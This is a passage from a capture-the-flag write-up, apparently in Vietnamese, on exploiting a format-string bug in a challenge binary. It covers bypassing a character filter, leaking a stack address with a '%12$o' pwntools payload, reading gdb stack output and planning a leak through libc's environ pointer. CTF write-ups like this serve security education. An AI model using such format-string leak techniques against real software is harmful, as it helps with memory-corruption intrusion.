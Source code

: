 ```c
    || strchr(a1, 'E')
    || strchr(a1, 'G')
    || (result = strchr(a1, 'A')) != 0LL )
  {
    puts("Cant leak anything");
    exit(1);
  }
  return result;
}
```

- vấn đề này có khá nhiều cách giải quyết , ta có thể dùng %x$s với x là offset , nếu may mắn thì ta hoàn toàn có thể leak được   , hoặc 1 cách khác là dùng %o đây là 1 định dạng octal , tuy nhiên nó chỉ leak tối đa 4 bytes ? địa chỉ stack sẽ là 0x7ffx  vậy tỉ lệ thành công là 1/16

- payload: 

```cs
p.sendlineafter(b'>> ',b'2')
input()
p.sendlineafter(b'>> ',b'%12$o')

leak = int(p.recvline()[:-1],8)
print(hex(leak))
```

```cs
[*] leak: 0x7f5c56f24000

0xeb78c160
```

so với 

```cs
00:0000│ rsp 0x7ffceb78c110 ◂— 0xa6f24323125 /* '%12$o\n' */
01:0008│-028 0x7ffceb78c118 ◂— 0
... ↓        2 skipped
04:0020│-010 0x7ffceb78c130 —▸ 0x557c8283ad78 (__do_global_dtors_aux_fini_array_entry) —▸ 0x557c82838210 (__do_global_dtors_aux) ◂— endbr64
05:0028│-008 0x7ffceb78c138 ◂— 0x1854714781e65a00
06:0030│ rbp 0x7ffceb78c140 —▸ 0x7ffceb78c160 ◂— 1
07:0038│+008 0x7ffceb78c148 —▸ 0x557c828386c5 (main+134) ◂— add dword ptr [rbp - 0xc], 1
```

- vậy ta sẽ dùng %offset$s sẽ safe hơn không phải random , ý tưởng là ta có libc -> ta sẽ có environ libc và con trỏ này chứa địa chỉ stack , tuy nhiên nó có 1 số byte bị filter nên ta cần mở gdb tìm các environ khác như sau: 

- lấy 4 bytes của stack và search , xong trừ nó đi 2 ta sẽ được 1 địa chỉ libc chứa địa chỉ stack

![find](/assets/images/findaddress.png)
